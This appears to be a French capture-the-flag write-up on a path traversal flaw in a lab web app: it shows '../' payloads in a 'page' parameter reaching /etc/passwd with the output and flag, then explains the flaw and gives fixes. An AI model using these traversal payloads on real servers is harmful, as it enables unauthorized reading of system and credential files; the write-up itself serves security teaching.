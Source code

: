 ### Comment obtenir le flag
En allant sur n'importe quel page du site contenant une requête GET dans l'url (comme `http://[ip]/?page=survey`), on essaye de changer la valeur du paramètre `page`.  
On obtient alors un script alert. Cela nous donne l'idée d'utiliser une attaque de répertoires automatisés avec un script python. (inspect_recursion.py)  
Ce script va simplement essayer d'accéder à l'URL du fichier `/etc/passwd` vu précédemment dans le dossier `whatever`, en rajoutant à chaque récursion un niveau de moins dans l'arborescence du serveur. Dans sa version finale, le script s'arrête quand l'alerte donne des indications sur le flag.  

```
$> python3 inspect_recursion.py [ip]

http://192.168.43.129/?page=etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../../etc/passwd
alert('Wrong..');

http://192.168.43.129/?page=../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../etc/passwd
alert('Almost.');

http://192.168.43.129/?page=../../../../../etc/passwd
alert('Still nope..');

http://192.168.43.129/?page=../../../../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```
Nous avons ainsi le flag.

### Expliquer la faille
La traversée de répertoire ou [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal) est une attaque HTTP qui permet aux attaquants d'accéder à des répertoires restreints et d'exécuter des commandes en dehors du répertoire racine du serveur web.  
Sur Linux, `/etc/passwd` est le fichier contenant la liste de tous les utilisateurs (et potentiellement leur mot de passe, même si ce dernier est généralement de nos jours dans `/etc/shadow`). Ici, l'utilisateur malveillant essaie d'utiliser `page` pour explorer le système de fichier et le contenu du serveur, et obtenir ainsi plus d'infomations sur sa configuration (et espérer trouver une faille exploitable).

### Comment la corriger
De façon assez basique, on pourrait simplement bloquer tout paramètre `page` commençant par un point. Il est préférable de vérifier les entrées utilisateur, idéalement de supprimer tout ce qui ne fait pas partie des données correctes pour naviguer sur le site.  
Il est de toute façon indispensable d'empêcher l'utilisateur exécutant le site Internet (en général `www-data`) d'avoir accès à `/etc/passwd` ou tout autre fichier sensible du système, en configurant correctement les droits et permissions sur le serveur.  
Enfin, vérifier si le serveur web et les logiciels sont à jour, et si les patches de sécurité ont bien été appliqués.
